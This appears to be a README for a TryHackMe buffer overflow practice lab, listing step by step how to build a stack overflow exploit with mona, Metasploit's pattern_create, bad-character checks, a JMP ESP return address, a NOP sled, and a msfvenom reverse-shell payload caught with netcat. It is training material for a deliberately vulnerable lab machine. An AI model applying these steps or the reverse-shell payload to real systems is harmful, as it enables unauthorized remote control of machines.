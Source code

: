 # How to use it

1 - Mona Configuration
\
`!mona config -set workingfolder c:\mona\%p` (Configure mona)

2 - Fuzzer payload
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/fuzzing.py

3 - Crash Replication & Controlling EIP
\
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600` (Change the -l value to the value that crashed the server)
\
Then use Exploit payload:
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/exploit.py

4 - Search Offset
\
`!mona findmsp -distance 600` (Change the -l value to the value that crashed the server to find the EIP)
\
Then, update the exploit and set the offset variable. to the previews value and set retn to "BBBB"

5 - Finding bad characters
\
`!mona bytearray -b "\x00"`
\
then use badcharacter payload
\
https://github.com/Lunox-code/TryHackMe-BufferOverflowPrep/blob/main/badcharacters.py
\
`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>` (Address EIP)
\
and try to find the badcharacters

6 - Find a Jump Point
\
********************
METHOD 1
\
Use dump on ESP
********************
\
METHOD 2
\
`!mona jmp -r esp -cpb "\x00"`
\
Find a jump point (Search de addres to set on the exploit in the part of "retn")
********************

7 - Prepend NOPs
\
`padding = "\x90" * 16`

8 - Create Shell
\
`msfvenom -p windows/shell_reverse_tcp LHOST=tun0IPHERE LPORT=4444 EXITFUNC=thread -b "\x00" -f c`

9 - Netcat listener

10 - exploit!
